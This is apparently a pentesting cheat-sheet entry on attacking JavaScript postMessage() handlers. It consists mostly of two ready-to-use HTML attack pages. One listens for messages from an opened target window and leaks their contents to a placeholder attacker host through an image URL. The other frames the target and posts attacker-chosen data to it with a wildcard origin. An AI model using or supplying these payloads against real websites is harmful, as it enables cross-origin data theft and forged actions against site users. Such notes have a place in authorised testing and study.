 
# postMessage() JavaScript Calls

If no CSRF token and no destination is present for the function, create a malicious HTML page that can leak information  

```html
<html>
        <body>
                <script>
                        window.addEventListener('message', function(event) {
                                document.write('<img src="http://<ATTACKER-IP>/?leak=' + event.data.value + '"></img>');}, false);

                        window.open('http://<TARGET>/key/0');
                </script>
        </body>
</html>
```

If CSRF protections are present, try loading an iFrame  

```html
<html>
<body>
<iframe id="frame" onload="hack()" src="http://<TARGET>/"></iframe>
<script>
function hack(){
        setTimeout(function() { document.getElementById("frame").contentWindow.postMessage('<POST-DATA>', '*'); // the wildcard is for the destination, send to all
                },2000);
};
        
</script>
</body>
</html>

```

